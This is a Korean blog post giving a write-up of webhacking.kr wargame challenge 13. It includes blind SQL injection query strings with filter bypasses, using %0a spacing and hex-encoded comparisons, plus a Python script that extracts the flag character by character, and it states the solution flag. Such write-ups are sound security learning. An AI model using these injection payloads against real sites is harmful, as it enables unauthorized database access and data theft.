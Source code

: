```yaml
---
layout: post
title: ! "[Webhacking.kr] 13"
categories: [Webhacking.kr]
excerpt: " "
comments: true
share: true
tags:
  - MitNy
  - webhacking.kr
  - Write-up
---
```


webhacking.kr의 최고점(1000) 문제인 13번을 풀어보도록 하겠습니다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13.png)

13번 문제는 친절하게도 HINT가 있다. `select flag from prob13password` 로, 컬럼명과 테이블명을 알려준다.
당연하게도 그대로 입력하면 `no hack`이 뜬다!

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_1.png)

1을 입력했을 경우, result : 1 과 같이 테이블처럼 보이는 것이 뜬다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_13.png)

확인 결과 출력되는 것은 result : 1, result : 0, no hack 세 개뿐인 것 같다.
왠지 결과값의 True or False로 확인하는 Blind SQL Injection의 냄새가 난다 ㅎㅎ

flag 컬럼의 row 수를 구하기 위해 아래와 같은 쿼리를 입력한다.

`?no=if((select(count(flag))from(prob13password))in(숫자),1,2)`

prob13password 테이블의 flag 컬럼의 row 수가 in 안의 숫자와 일치하면 no=1, 아니면 no=2가 된다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_count1.png)
![]({{ site.baseurl }}/images/mitny/webhackingkr/13_count2.png)

다른 숫자도 넣어봤을 때 no=2일 때만 result가 참이었으므로 flag 컬럼의 row는 2개인 것을 확인할 수 있다.
데이터가 많지 않으므로 SQL의 min,max 함수를 사용해 데이터들의 최소, 최대 길이를 구할 것이다.
SQL 공부도 할겸 서버에서 직접 테스트 해봤다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_minmax.png)

문제 풀이를 위해 기존에 쓰던 코드를 조금 변형해서 짰다.
```py
# -*- coding : UTF-8 -*-
from requests import get
import string
from time import sleep

url = "http://webhacking.kr/challenge/web/web-10/"
cookies = dict(PHPSESSID="1f70714d3b9c01e58b7a5c6c6c1a08f2")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

ascii_list = []
for i in range(21,126):
        ascii_list.append(chr(i))

for i in range(1,50):
    parameter = "?no=if((select(max(length(flag)))from(prob13password))in("+str(i)+"),1,2)"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("<tr><td>result</td></tr><tr><td>1</td></tr>") > 0:
        length = i + 1
        print("Max data length is "+str(i))
        break

for i in range(1, length):
        for a in string.printable:
                parameter = "?no=(substr((select%0amin(flag)%0afrom%0aprob13password)," + str(i) + ",1)in(" + hex(ord(a)) + "))"
                new_url = url + parameter
                r = get(new_url, cookies=cookies)

                if r.text.find("<td>1</td>") > 0:
                        print(str(i) + " -> "+a)
                        result += a
                        break

                if i == length:
                        print("\npassword is "+result)
                        print("\n")
```

max 데이터의 길이를 구하고, 길이를 구할 때 사용했던 쿼리를 조금 바꿔서  substr을 추가해주었다.
`(substr((select%0amin(flag)%0afrom%0aprob13password),1,1)in(0x66))`

이번 쿼리를 짜면서 헷갈리고 어려웠던 부분은 min과 hex의 사용이었다.
분명 Auth flag는 max 데이터일텐데 왜 select min(flag)를 하며, in(hex)를 사용하는가였다.
hex값과 똑같은 문자를 넣으면 거짓이 떴다.

다른 분들의 풀이를 참고해도 설명이 다 달라서 헷갈린다..ㅎㅎ 이 부분은 더 공부를 해봐야 할 것 같다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_flag.png)

여기서 나온 `challenge13luckclear` 를 Auth 부분에 입력하면 문제가 풀린다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_clear.png)


